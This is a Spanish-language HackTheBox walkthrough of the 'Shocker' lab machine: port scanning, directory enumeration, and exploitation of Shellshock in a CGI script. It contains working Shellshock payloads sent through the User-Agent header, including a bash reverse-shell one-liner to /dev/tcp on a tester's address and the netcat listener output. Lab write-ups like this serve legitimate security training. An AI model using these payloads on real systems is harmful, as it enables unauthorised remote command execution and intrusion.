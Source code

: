 ```yaml
---
title: Shocker
published: 2025-03-26
image: "./logo.png"
tags: [Easy, ShellShock Attack, Abusing Sudoers, Perl, eJTP, eWPT]
category: HackTheBox
---
```


## Información Básica

### Técnicas vistas

- ShellShock Attack (User-Agent)
- Abusing Sudoers Privilege (Perl)

### Preparación

- eWPT
- eJPT

***

## Reconocimiento

Para comenzar el reconocimiento de esta máquina usaremos el comando **scan**:

```sh
scan () {
	sudo nmap -sS --min-rate=5000 -p- --open -vvv -n -Pn "$1" -oG "nmap/AllPorts"
}
```

Esto nos exportará los puertos que estén abiertos para que posteriormente ver las versiones que corren en cada puerto.

```
# Nmap 7.95 scan initiated Fri Mar 21 16:17:28 2025 as: /usr/lib/nmap/nmap -sS --min-rate=5000 -p- --open -vvv -n -Pn -oG nmap/AllPorts 10.10.10.56
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.10.56 ()    Status: Up
Host: 10.10.10.56 ()    Ports: 80/open/tcp//http///, 2222/open/tcp//EtherNetIP-1///
# Nmap done at Fri Mar 21 16:17:47 2025 -- 1 IP address (1 host up) scanned in 19.21 seconds
```

Una vez escaneados los puertos **88** y **2222** veremos lo siguiente:

```
# Nmap 7.95 scan initiated Sun Mar 23 21:58:37 2025 as: /usr/lib/nmap/nmap -p 2222,80 -sVC -oN nmap/Scan 10.10.10.56
Nmap scan report for 10.10.10.56
Host is up (0.039s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Mar 23 21:58:45 2025 -- 1 IP address (1 host up) scanned in 8.42 seconds
```

### Web

Hay un servidor web **Apache** y otro **SSH**, empezaremos por el primero, vamos a ver que hay en la web:

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FOcclj7Af3GV6muW1w1Bt%2F1.png?alt=media&#x26;token=c76f433d-93da-411d-ad92-a13475608340" alt=""><figcaption></figcaption></figure>

Solo podemos ver esto, y el código fuente tampoco es que sea muy complejo:

```html
<html>
  <head></head>
  <body>
  <h2>Don't Bug Me!</h2>
  <img src="bug.jpg" alt="bug" style="width:450px;height:350px;">
 </body>
</html>
```

### Dirbuster

Por lo que usaremos **dirbuster** para ver directorios o archivos ocultos en el servidor.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FrI8CAzl1vcLFICTNRJ9J%2F2.png?alt=media&#x26;token=b37966ac-4e38-490d-9c2c-1407887a39e7" alt=""><figcaption></figcaption></figure>

Vemos que hay una ruta llamada `/cgi-bin/` con un archivo `user.sh`. Vamos a buscar información para explotar esto.

## Explotación

Según el artículo: [https://deephacking.tech/shellshock-attack-web/](https://deephacking.tech/shellshock-attack-web/), la vulnerabilidad shellsock viene dada a algunas versiones antiguas de bash en las que al asignar una función como variable de entorno se ejecutaba.&#x20;

Hasta aquí no parece tan grave, el problema viene cuando podemos lograr un `RCE` (Remote Command Execution) . La información recibida por parte del cliente como el `User-Agent`, se guarda como variable de entorno. Esto es grave ya que puede ser manipulada por nosotros para explotarlo de la siguiente manera:

```http
http http://10.10.10.56/cgi-bin/user.sh User-Agent:"() { :;}; echo; echo ¿Es vulnerable?"
HTTP/1.1 200 OK
Connection: Keep-Alive
Content-Type: text/x-sh
Date: Wed, 26 Mar 2025 20:29:16 GMT
Keep-Alive: timeout=5, max=100
Server: Apache/2.4.18 (Ubuntu)
Transfer-Encoding: chunked

¿Es vulnerable?

Content-Type: text/plain

Just an uptime test script

 16:29:16 up 21:50,  0 users,  load average: 0.00, 0.00, 0.00
```

> _`http` es una herramienta que he encontrado debido a que curl me estaba dando problemas con el User-Agent. Tiene la misma funcionalidad que curl._

Podemos ver que es vulnerable, por lo que podemos intentar establecer una reverse shell de la siguiente manera:

```bash
http http://10.10.10.56/cgi-bin/user.sh User-Agent:"() { :;}; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.17/8888 0>&1'"
```

```sh
❯ nc -nlvp 8888
listening on [any] 8888 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.56] 51862
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ ls
ls
user.sh
shelly@Shocker:/usr/lib/cgi-bin$
```

De esta manera ya podremos sacar la `user flag`:

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2F1RDGrWlHbcG4focLXIp8%2Fimage.png?alt=media&#x26;token=76c1399d-ab61-4814-b40e-e0e7ff495ad6" alt=""><figcaption></figcaption></figure>

## Escalada de privilegios

Para la escalada de privilegios usaremos:

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2Fefkt6gKOgecOTxxgmulC%2Fimage.png?alt=media&#x26;token=4fd0f181-4446-4e8d-ad47-9f3c16599780" alt=""><figcaption></figcaption></figure>

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FqdnacIa43jAvI6We8OEP%2Fimage.png?alt=media&#x26;token=dc182071-3121-4a35-a33e-11004c2fbec3" alt=""><figcaption></figcaption></figure>

[Pwned!](https://labs.hackthebox.com/achievement/machine/1992274/108)

---